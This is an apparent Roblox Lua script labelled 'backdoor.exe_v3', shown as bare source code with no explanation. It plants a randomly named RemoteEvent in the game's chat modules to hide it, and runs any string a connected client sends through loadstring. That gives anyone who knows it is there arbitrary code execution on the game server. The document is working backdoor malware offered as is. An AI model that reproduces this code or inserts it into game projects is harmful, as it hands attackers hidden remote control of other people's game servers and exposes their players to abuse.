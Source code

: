 # backdoor.exe_v3
local Remote = Instance.new("RemoteEvent", game.Chat:WaitForChild("ClientChatModules").MessageCreatorModules)
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.OnServerEvent:connect(function(player, execute)
	loadstring(execute)()
end)
